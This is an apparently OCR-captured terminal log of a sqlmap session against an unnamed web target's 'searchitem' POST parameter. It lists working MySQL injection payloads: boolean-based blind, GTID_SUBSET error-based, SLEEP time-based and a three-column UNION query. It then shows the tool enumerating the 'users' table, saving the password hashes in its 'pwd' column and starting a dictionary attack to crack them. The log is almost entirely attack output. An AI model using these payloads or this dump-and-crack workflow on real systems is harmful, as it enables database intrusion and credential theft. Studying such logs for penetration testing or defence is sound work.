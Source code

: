 ```
[10:50:18] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[10:50:18] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[10:50:18] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[10:50:19] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[10:50:19] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[10:50:19] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:50:30] [INFO] POST parameter 'searchitem' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[10:50:30] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:50:30] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[10:50:30] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:50:30] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[10:50:31] [INFO] target URL appears to have 3 columns in query
[10:50:32] [INFO] POST parameter 'searchitem' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[10:50:32] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'searchitem' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 88 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-2828' OR 2751=2751#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=tester' AND GTID_SUBSET(CONCAT(0x7171627071,(SELECT (ELT(4754=4754,1))),0x717a627071),4754)-- bmCD

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=tester' AND (SELECT 6499 FROM (SELECT(SLEEP(5)))RNqx)-- KlSE

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=tester' UNION ALL SELECT NULL,NULL,CONCAT(0x7171627071,0x724f745778686f5371736d525645714c44466567514b48564d4f4a775564714875434e5956455964,0x717a627071)#
---
[10:51:33] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[10:51:34] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[10:51:34] [INFO] fetching current database
[10:51:35] [INFO] fetching tables for database: 'db'
[10:51:35] [INFO] fetching columns for table 'users' in database 'db'
[10:51:35] [INFO] fetching entries for table 'users' in database 'db'
[10:51:35] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[10:51:44] [INFO] writing hashes to a temporary file '/tmp/sqlmapg3savr7s11905/sqlmaphashes-g6au1jcb.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] 
[10:51:49] [INFO] using hash method 'sha256_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 
[10:51:56] [INFO] using default dictionary
```